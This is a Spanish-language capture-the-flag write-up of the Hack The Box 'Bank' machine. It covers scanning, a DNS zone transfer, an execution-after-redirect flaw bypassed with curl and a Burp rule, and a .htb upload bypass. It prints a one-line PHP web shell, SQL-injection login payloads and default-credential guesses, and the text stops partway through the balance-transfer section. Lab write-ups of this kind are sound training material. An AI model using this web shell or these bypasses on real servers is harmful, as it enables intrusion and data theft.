







---

# 1. Ficha técnica


## **Información General**

- **Nombre de la Máquina:** Bank
- **Sistema Operativo:** Linux
- **Dificultad:** Fácil (Easy)
- **Creador:** makelarisjr
- **Fecha de Lanzamiento:** 16 de Junio de 2017

## **Vectores de Ataque y Técnicas Empleadas**

#### **1. Acceso Inicial**

- **Ejecución después de Redirección (EAR):** Explotación de fallos lógicos en la aplicación web donde el código del servidor se sigue ejecutando a pesar de enviar una cabecera de redirección.
- **Abuso de Subida de Archivos PHP:** Carga de un archivo malicioso (web shell) aprovechando la falta de sanitización o validación correcta en los formularios de subida de la web.

#### **2. Vía Alternativa (Footprinting / Enumeración Avanzada)**

- **Exposición de Archivos Sensibles:** Localización de información crítica expuesta públicamente en el servidor web.
- **Abuso de Fallos en Protocolos de Cifrado:** Explotación de debilidades en la configuración criptográfica del servicio.

#### **3. Escalada de Privilegios**

- **Abuso de Privilegios SUID:** Explotación de permisos mal configurados en binarios críticos del sistema para ejecutar comandos como el usuario `root`.

>[!WARNING] **Importante:** Este informe tiene fines puramente educativos. Los procedimientos descritos se realizaron en un entorno controlado (Hack The Box) con el fin de mejorar habilidades en ciberseguridad y auditoría.


---

# 2. Reconocimiento

## 2.1. Comprobación de conectividad

Como es habitual en entornos de CTF, el primer paso fundamental es verificar la conectividad con el sistema objetivo. Para ello, se utiliza la herramienta `ping` con el fin de enviar cuatro paquetes ICMP (_Internet Control Message Protocol_).

**Comando ejecutado:**

```bash
ping -c 4 10.129.29.200
```

**Resultado obtenido:**

```plaintext
PING 10.129.29.200 (10.129.29.200) 56(84) bytes of data.
64 bytes from 10.129.29.200: icmp_seq=1 ttl=63 time=115 ms
64 bytes from 10.129.29.200: icmp_seq=2 ttl=63 time=116 ms
64 bytes from 10.129.29.200: icmp_seq=3 ttl=63 time=114 ms
64 bytes from 10.129.29.200: icmp_seq=4 ttl=63 time=114 ms

--- 10.129.29.200 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 113.654/114.735/115.958/0.936 ms
```

### Análisis de los resultados

Tras analizar la salida del comando, se extraen las siguientes conclusiones clave:

- **0% de pérdida de paquetes:** Confirma una conectividad estable y directa entre ambos sistemas, garantizando que el objetivo está activo.
  
- **Valor TTL de 63:** El _Time to Live_ (TTL) o tiempo de vida del paquete es un indicador clave para la identificación del sistema operativo. Al ser un valor cercano a 64 (el estándar por defecto para sistemas basados en Linux), nos proporciona la primera pista sólida de que la máquina objetivo es un sistema **Linux** (restando un salto de red intermedio).

---

## 2.2. Escaneo de puertos TCP

Una vez confirmada la conectividad con el objetivo, se procedió a realizar un escaneo completo sobre el total del rango de puertos TCP (65,535) utilizando la herramienta `nmap`.

Con el objetivo de optimizar los tiempos de ejecución y mantener el foco en vectores de ataque viables, se configuró el escaneo para filtrar únicamente los puertos que se encuentren en estado abierto (`--open`), aplicando un escaneo de tipo _SYN Stealth Scan_ (`-sS`) a alta velocidad y omitiendo la resolución de nombres o el descubrimiento de host previo.

**Comando ejecutado:**

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.29.200
```

**Resultados obtenidos:**

```plaintext
Nmap scan report for 10.129.29.200
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

### Análisis de los resultados

El escaneo identificó únicamente **tres puertos TCP abiertos**: `22` (SSH), `53` (DNS) y `80` (HTTP).

A pesar de ser un vector de entrada reducido, los servicios asociados a estos puertos suelen albergar una superficie de ataque considerable (configuraciones por defecto, vulnerabilidades web o subdominios expuestos). Por lo tanto, la estrategia óptima en esta fase consiste en **priorizar la enumeración profunda de estos servicios** (versiones, tecnologías y banners) antes de invertir tiempo en un escaneo del protocolo UDP, el cual suele ser más lento y ruidoso.

-----

# 3. Enumeración

## 3.1. Enumeración de puertos y servicios

Para profundizar en los objetivos identificados, se utilizó `nmap` junto con los parámetros de detección de versiones (`-sV`) y el motor de _scripts_ por defecto (`-sC`, _Nmap Scripting Engine_). Esta combinación permite identificar con precisión las versiones de los servicios en ejecución y extraer información complementaria crítica para trazar los vectores de ataque.

**Comando ejecutado:**

```bash
nmap -p22,53,80 -sCV 10.129.29.200
```

**Resultados:**

| **Puerto / Servicio** | **Versión**                   | **Vulnerabilidades Asociadas**                                                                                                                                            | **Información Adicional Relevante**                                                                     |
| --------------------- | ----------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| **22 / SSH**          | OpenSSH 6.6.1p1 Ubuntu        | OpenSSH 2.3 < 7.7 - _Username Enumeration_                                                                                                                                | El _banner_ del servicio confirma que el _codename_ de la distribución corresponde a **Ubuntu Trusty**. |
| **53 / DNS**          | ISC BIND 9.9.5-3ubuntu0.14    | No se detectaron vulnerabilidades directas en el escaneo automatizado.                                                                                                    | El _banner_ del servicio reafirma el uso de **Ubuntu Trusty**.                                          |
| **80 / HTTP**         | Apache httpd 2.4.7 ((Ubuntu)) | 1. Apache 2.4.7 _mod_status_ - _Scoreboard Handling Race Condition_<br><br>  <br><br>2. Apache 2.4.7 + PHP 7.0.2 - _'openssl_seal()' Uninitialized Memory Code Execution_ | El _banner_ del servicio es consistente con **Ubuntu Trusty**.                                          |
### Análisis de la información

- **SSH:** Aunque existe una vulnerabilidad conocida de enumeración de usuarios, explotarla requiere el uso de diccionarios extensos y un análisis de respuestas basado en tiempos o discrepancias. No se recomienda priorizar esta vía como primer recurso debido al alto volumen de ruido que genera en los registros del sistema (_logs_).
  
- **DNS:** La exposición de un servicio DNS interno sin las restricciones adecuadas suele ser una fuente crítica de fuga de información. El paso inmediato será interactuar directamente con él para intentar realizar una transferencia de zona (`AXFR`) o enumerar subdominios.
  
- **HTTP:** Las vulnerabilidades identificadas en la versión de Apache exigen condiciones de entorno muy específicas y complejas para una explotación exitosa, por lo que no representan un vector de entrada inmediato. Al igual que con el servicio DNS, se optará por realizar una enumeración web exhaustiva (fuzzing de directorios, análisis de tecnologías y código fuente) para definir la superficie de ataque real.

> [!WARNING] **Nota adicional sobre la arquitectura:** El hecho de que los _banners_ de los tres servicios coincidan unánimemente en la misma versión del sistema operativo (**Ubuntu Trusty**) sugiere que los servicios se ejecutan directamente sobre el _host_ y no bajo contenedores aislados (como Docker). En consecuencia, un compromiso exitoso en cualquiera de ellos podría otorgar acceso directo al sistema operativo principal.

---

## 3.2. Enumeración DNS

Al intentar acceder al servicio web principal utilizando directamente la dirección IP de la máquina objetivo, el servidor únicamente despliega la página por defecto de Apache. Dado que esta página no expone información relevante para la auditoría, y considerando que el servicio DNS está activo, se deduce la posible presencia de **_Virtual Hosting_ basado en nombres**. Esta técnica permite a un único servidor web alojar múltiples dominios en la misma IP, respondiendo con contenido distinto según el nombre de dominio solicitado.

Una forma directa de verificar la existencia de un dominio válido utilizando el servidor DNS del objetivo es realizar una consulta dirigida mediante la herramienta `dig`, apuntando a un dominio hipotético o predecible para el laboratorio (en este caso, `bank.htb`):

**Comando ejecutado:**

```bash
dig @10.129.29.200 bank.htb
```

**Resultados:**

```plaintext
;; ANSWER SECTION:
bank.htb.		604800	IN	A	10.129.29.200
;; AUTHORITY SECTION:

bank.htb.		604800	IN	NS	ns.bank.htb.
;; ADDITIONAL SECTION:

ns.bank.htb.		604800	IN	A	10.129.29.200
```

### Análisis de la información

La respuesta del servidor DNS confirma de manera explícita la existencia del dominio `bank.htb`, el cual resuelve directamente a la dirección IP del objetivo (`10.129.29.200`) a través de un registro de tipo **A**. Asimismo, la sección de autoridad expone el servidor de nombres asociado (`ns.bank.htb.`).

**Próximo paso:** Para que las herramientas de auditoría web (como navegadores o _fuzzers_) puedan interactuar con el _Virtual Host_ de forma correcta enviando la cabecera `Host` adecuada, es necesario asociar este dominio a la dirección IP localmente. Para ello, se procede a registrarlo en el archivo `/etc/hosts` del sistema atacante:

```bash
echo "10.129.29.200  bank.htb ns.bank.htb" | sudo tee -a /etc/hosts
```

---

## 3.2.1 Enumeración de registros de correo

Continuando con la fase de enumeración del servicio DNS, se procedió a consultar los registros de intercambio de correo (**MX**) para el dominio objetivo utilizando el siguiente comando:

```bash
dig @10.129.29.200 bank.htb mx
```

**Resultados**

```plaintext
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;bank.htb.			IN	MX

;; AUTHORITY SECTION:
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
```

### Análisis de los resultados

A pesar de que el servidor no devolvió una sección de respuesta activa (`ANSWER SECTION`) —lo que indica la ausencia de servidores de correo configurados mediante registros MX—, la sección de autoridad (`AUTHORITY SECTION`) expuso el registro **SOA** (Start of Authority) de la zona.

Dentro de los metadatos de este registro se reveló la dirección de correo electrónico del administrador: **`chris@bank.htb`** (representada en la salida como `chris.bank.htb.`). Este hallazgo es de alta criticidad para las fases posteriores del análisis, ya que introduce un vector de **enumeración de usuarios**, sugiriendo que `chris` podría ser una cuenta válida a nivel de sistema. Este vector podrá ser validado posteriormente mediante pruebas de fuerza bruta o técnicas de enumeración en servicios expuestos como **SSH**.

---

## 3.2.2. Transferencia de zona DNS

El siguiente paso lógico en la fase de reconocimiento es intentar una transferencia de zona completa (`AXFR`). Este procedimiento busca explotar una posible mala configuración en el servidor DNS para replicar de forma masiva todos los registros contenidos en la zona del dominio objetivo.

Para ejecutar esta prueba se utilizó nuevamente la herramienta `dig`:

**Comando ejecutado:**

```bash
dig @10.129.29.200 bank.htb axfr
```

**Resultados obtenidos:**

```plaintext
; <<>> DiG 9.20.23-1~deb13u1-Debian <<>> @10.129.29.200 bank.htb axfr
; (1 server found)
;; global options: +cmd
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
bank.htb.		604800	IN	NS	ns.bank.htb.
bank.htb.		604800	IN	A	10.129.29.200
ns.bank.htb.		604800	IN	A	10.129.29.200
www.bank.htb.		604800	IN	CNAME	bank.htb.
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
;; Query time: 439 msec
;; SERVER: 10.129.29.200#53(10.129.29.200) (TCP)
;; WHEN: Sat Jun 13 12:24:07 CST 2026
;; XFR size: 6 records (messages 1, bytes 171)
```

### Análisis de la información

La transferencia de zona fue **exitosa**, lo que confirma una vulnerabilidad de divulgación de información debido a una restricción de transferencia de zona inexistente o laxa.

- **Registro CNAME:** Se identifica el subdominio `www.bank.htb`, el cual actúa como un alias apuntando directamente a la raíz `bank.htb`.

>[!WARNING] **Nota de auditoría:** Aunque el subdominio `www` resuelva mediante un alias (CNAME) al dominio que ya configuramos previamente, es una buena práctica añadirlo también al archivo `/etc/hosts` (quedando como `10.129.29.200 bank.htb www.bank.htb`). Esto evita errores de resolución o pérdidas de sesión en caso de que el aplicativo web realice redirecciones absolutas hacia la versión con `www`. El resto de la información recopilada simplemente valida los vectores de red (`A` y `NS`) ya consolidados en la fase anterior.

---

## 3.3. Enumeración web

Con el dominio `bank.htb` correctamente mapeado en el sistema, se procedió a iniciar la fase de enumeración web enfocada. El primer paso estratégico consistió en identificar las tecnologías, componentes y versiones que configuran el servicio del lado del servidor y del cliente.

Para esta labor se utilizó la herramienta `whatweb`:

**Comando ejecutado:**

```bash
whatweb http://bank.htb
```

**Resultados obtenidos:**

```plaintext
http://bank.htb [302 Found] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.129.29.200], JQuery, PHP[5.5.9-1ubuntu4.21], RedirectLocation[login.php], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.21]

http://bank.htb/login.php [200 OK] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.129.29.200], JQuery, PHP[5.5.9-1ubuntu4.21], PasswordField[inputPassword], Script, Title[HTB Bank - Login], X-Powered-By[PHP/5.5.9-1ubuntu4.21]
```

### Análisis de los resultados

El escaneo pasivo de tecnologías reveló datos cruciales para definir la superficie de ataque:

- **Redireccionamiento automático (HTTP 302):** Al intentar acceder al índice del dominio raíz (`http://bank.htb`), el servidor responde con un código de estado `302 Found`, redirigiendo el flujo de la petición hacia el recurso `login.php`. Esto sugiere que el sitio requiere autenticación previa para visualizar el contenido principal.

- **Confirmación de versiones (PHP 5.5.9):** Se identifica de forma precisa la versión de PHP en ejecución (`5.5.9-1ubuntu4.21`). Este hallazgo es sumamente relevante, ya que **descarta** la vulnerabilidad teórica de ejecución de código identificada en el escaneo de puertos general (la cual aplicaba específicamente para PHP 7.0.2).

- **Gestión de Sesiones:** El servidor genera una cookie personalizada bajo el nombre `HTBBankAuth`. La manipulación o secuestro de esta cookie (_Session Hijacking_) podría convertirse en un vector crítico más adelante.

- **Componentes del lado del cliente:** El sitio web utiliza el _framework_ CSS **Bootstrap** y la librería **JQuery**, elementos comunes cuyo análisis de versiones web posterior podría desvelar vulnerabilidades de tipo _Cross-Site Scripting_ (XSS) en el cliente.

---

## 3.3.1 Análisis de la respuesta HTML

Antes de realizar la inspección visual en el navegador, se ejecutó una petición directa utilizando `curl` para analizar el cuerpo de la respuesta HTML nativa enviada por el servidor, sin procesar los redireccionamientos automáticos.

**Comando ejecutado:**

```bash
curl http://bank.htb
```

**Resultado obtenido:**

```html
            <div class="panel-body">
                <div class="table-responsive">
                    <table class="table table-bordered table-hover table-striped">
                        <thead>
                            <tr>
                            	<th>Card Type</th>
                                <th>Card Number</th>
                                <th>Card Exp Date</th>
                                <th>CVV</th>
                                <th>Balance</th>
```

### Análisis de la respuesta

El fragmento de código HTML obtenido revela datos críticos que no corresponden bajo ningún escenario a un formulario de inicio de sesión estándar (`login.php`). Se observa la estructura de una tabla diseñada para desplegar información financiera sensible, incluyendo tipos de tarjetas de crédito, números de tarjeta, fechas de expiración, códigos CVV y balances de cuentas.

Este comportamiento expone una vulnerabilidad crítica de control de acceso conocida como **Ejecución Posterior a la Redirección (_Execution After Redirect_ o EAR)**.

El fallo radica en que el código del lado del servidor (PHP) identifica que el usuario no está autenticado e instruye una redirección mediante la cabecera `Location: login.php`. Sin embargo, los desarrolladores **omitieron finalizar la ejecución del script** (por ejemplo, interrumpiendo el flujo con un comando `die();` o `exit();` inmediatamente después de la redirección). Como resultado, aunque un navegador web convencional obedece la redirección instantáneamente y oculta el contenido, el servidor continúa procesando y enviando el resto del código HTML de la zona protegida en el cuerpo de la respuesta, permitiendo a cualquier atacante interceptar e inspeccionar la información confidencial mediante herramientas que no sigan la redirección de forma automática (como `curl`).

----

## 3.3.2 Inspección visual de la aplicación web

La inspección visual del sitio a través del navegador web confirmó la presencia de un panel de inicio de sesión bajo la identidad corporativa de **"HTB Bank"**. Este hallazgo, en correlación directa con la estructura de datos financieros (números de tarjeta, balances, etc.) extraída previamente del cuerpo HTML, ratifica de forma definitiva que el objetivo es una aplicación de banca en línea.



### Pruebas de autenticación y resultados

Con el fin de validar vectores de acceso rápidos en el panel de firmas, se realizaron las siguientes pruebas estructuradas:

- **Credenciales por defecto:** Se realizaron intentos de acceso utilizando combinaciones comunes basadas en los correos electrónicos corporativos de los usuarios hipotéticos identificados en fases previas (como el usuario `chris` expuesto en el registro SOA del DNS) y el usuario genérico `admin`. Las pruebas incluyeron:

    - `admin@bank.htb` : `admin` / `password` / `password123`
    - `chris@bank.htb` : `admin` / `password` / `password123`
    - _Resultado:_ Todas las combinaciones fueron rechazadas por el aplicativo.

- **Inyección SQL (SQLi):** Se introdujeron _payloads_ de autenticación básicos (como `' OR 1=1 -- -`) en los campos de entrada de texto para verificar si las consultas en el lado del servidor eran vulnerables y permitían evadir el inicio de sesión.

    - _Resultado:_ No se obtuvieron indicios de comportamiento anómalo ni omisiones de autenticación por esta vía.


**Próximo paso estratégico:** Debido a que el panel de autenticación frontal parece resistir las inyecciones básicas, y considerando el precedente de la vulnerabilidad **EAR** (donde el servidor procesa archivos sin validar sesiones correctamente), la estrategia óptima consiste en realizar una fase de **descubrimiento de archivos y subdirectorios ocultos mediante fuerza bruta** (_fuzzing_). Esto permitirá mapear recursos internos que puedan estar expuestos directamente a causa de la misma falta de control de accesos.

---

## 3.3.3. Enumeración de directorios y recursos mediante fuzzing web

Con el fin de descubrir rutas ocultas y archivos con extensión `.php` (aprovechando que ya se confirmó el uso de esta tecnología en el servidor), se realizó un ataque de diccionario utilizando la herramienta `gobuster` en su modo de enumeración de directorios (`dir`).

Para optimizar el proceso, se configuraron 200 hilos de ejecución (`-t 200`) y se empleó el diccionario de tamaño medio de _SecLists_.

**Comando ejecutado:**

```bash
gobuster dir -t 200 --no-error -x php --wordlist /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --url http://bank.htb
```

**Resultados obtenidos:**

```plaintext
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/login.php            (Status: 200) [Size: 1974]
/support.php          (Status: 302) [Size: 3291] [--> login.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/index.php            (Status: 302) [Size: 7322] [--> login.php]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
Progress: 441118 / 441120 (100.00%)
===============================================================
Finished
===============================================================
```

### Análisis de los resultados

El proceso de _fuzzing_ arrojó un mapa claro de la estructura del sitio web, identificando directorios de recursos (`/assets`, `/inc`, `/uploads`) y varios archivos funcionales:

- **Evidencia clave del fallo EAR:** Al observar los recursos `/index.php` y `/support.php`, ambos devuelven un código de estado `302 Redirect` apuntando hacia `login.php`. Sin embargo, el tamaño de sus respuestas (**7322 bytes** y **3291 bytes** respectivamente) es significativamente mayor que el de una redirección limpia (como `/logout.php` que pesa **0 bytes**). Esto confirma de forma cuantitativa que el servidor está renderizando y enviando lógica HTML interna antes de que el navegador procese la redirección.

- **Vector prioritario (`/support.php`):** Este archivo es el candidato idóneo para la siguiente prueba de concepto. Siguiendo la misma metodología aplicada con `curl`, se interceptará su contenido para verificar qué funciones del sistema de soporte quedan expuestas sin necesidad de credenciales válidas.

- **Directorios de interés:** Rutas como `/uploads` y `/balance-transfer` requieren una revisión posterior (por ejemplo, validando si sufren de listado de directorios o _Directory Listing_) para comprobar si almacenan archivos sensibles o permiten la subida de elementos maliciosos.

---

## 3.3.4 Inspección de la respuesta HTML de `support.php`

Siguiendo la línea estratégica definida en la fase anterior, se ejecutó una petición directa con `curl` hacia el recurso `/support.php` con el propósito de saltar la re-dirección del navegador e inspeccionar el código HTML interno en busca de funcionalidades expuestas o fugas de información.

**Comando ejecutado:**

```bash
curl http://bank.htb/support.php
```

**Resultados obtenidos:**

```plaintext
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```

>[!WARNING] *Nota: Además del comentario de depuración expuesto, el cuerpo de la respuesta revela la interfaz del módulo de soporte, confirmando la existencia de un formulario diseñado para la carga/subida de archivos al servidor web.*

### Análisis de resultados y formulación del vector de ataque inicial

El análisis del código fuente de `/support.php` arrojó un hallazgo crítico para el desarrollo de la auditoría: un comentario de desarrollo (`[DEBUG]`) dejado por los administradores en el código HTML. El mensaje indica explícitamente que, con fines de depuración, se modificó la configuración del servidor web para que **los archivos con extensión `.htb` sean interpretados y ejecutados como código PHP**.

A partir de esta fuga de información y de la presencia del formulario de carga de archivos en el panel de soporte, se establece el siguiente **vector de ataque potencial**:

1. **Evasión de restricciones de subida (_Arbitrary File Upload Bypass_):** Es habitual que las aplicaciones web implementen listas negras que prohíben la subida de extensiones peligrosas como `.php`, `.php5` o `.phtml`. Sin embargo, debido a la configuración de depuración, la extensión `.htb` probablemente no se encuentre dentro de los filtros de restricción del aplicativo.

2. **Ejecución remota de código (RCE):** Al subir un archivo legítimo con extensión `.htb` que contenga un fragmento de código PHP malicioso (por ejemplo, una _web shell_ básica), el servidor web procesará la petición de ejecución en el lado del servidor cuando el recurso sea solicitado de forma directa.

3. **Establecimiento de acceso inicial:** El objetivo inmediato tras validar la ejecución del código será redirigir el flujo hacia el sistema atacante para interceptar una conexión reversa (_Reverse Shell_), consolidando así el acceso inicial al sistema operativo del host.

---

## 3.3.5 Confirmación de EAR y Explotación exitosa (RCE)

Para validar de forma interactiva la vulnerabilidad de Ejecución Posterior a la Redirección (EAR), se utilizó la herramienta `Burp Suite` como _proxy_ de interceptación. Al capturar las respuestas HTTP del servidor que contenían el código de estado `302 Found`, se modificaron manualmente a `200 OK`, logrando que el navegador web renderizara por completo el panel interno sin necesidad de credenciales legítimas.

Con el fin de agilizar la navegación por el aplicativo, se configuró la función **_Match and Replace_** en Burp Suite para automatizar esta sustitución en todas las respuestas entrantes. Gracias a esta regla de reemplazo, se obtuvo acceso constante y fluido a la interfaz de levantamiento de _tickets_ de soporte, confirmando la presencia de un formulario funcional para la carga de archivos.

**Regla de automatización implementada en Burp Suite:**

- **Tipo:** _Response header_
- **Buscar:** `HTTP/1.1 302 Found` ➡️ **Reemplazar por:** `HTTP/1.1 200 OK`



### Ejecución del vector de ataque

Aprovechando que la configuración de depuración del servidor permite la ejecución de archivos `.htb` como _scripts_ de PHP, y que las listas negras de la función de subida no filtraban dicha extensión, se procedió a cargar un archivo malicioso bajo el nombre `exploit.htb`. El archivo contenía el siguiente _payload_ optimizado para desplegar una _Web Shell_:

```php
<?php
  system($_GET['cmd']);
?>
```



### Resultados y análisis

El archivo se cargó de manera exitosa en el servidor. Al realizar una petición directa hacia la ruta del recurso subido e incluir el parámetro de control `?cmd=`, se logró una **Ejecución Remota de Comandos (RCE)** en el sistema objetivo.

Como prueba de concepto (PoC), se validó el impacto ejecutando comandos del sistema operativo ( `whoami`), confirmando que las instrucciones se ejecutan bajo el contexto y privilegios del usuario de los servicios web (`www-data`).

![image]../Bank/Images/www-data.png)

---

## 3.3.6 Vía alternativa para la autenticación en el servidor

Como vector alternativo para acceder a la aplicación web, se procedió a auditar el contenido del subdirectorio `/balance-transfer/` descubierto durante la fase de _fuzzing_. Al inspeccionar esta ruta, se detectó la exposición de 999 archivos con extensión `.acc`, los cuales aparentan almacenar registros de movimientos bancarios y credenciales de usuarios.

Una revisión preliminar de los archivos reveló que el sistema aplica un mecanismo de protección para ofuscar los datos, mostrando una cabecera que indica un cifrado exitoso (`++OK ENCRYPT SUCCESS`):

**Estructura de un archivo procesado correctamente:**

```plaintext
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
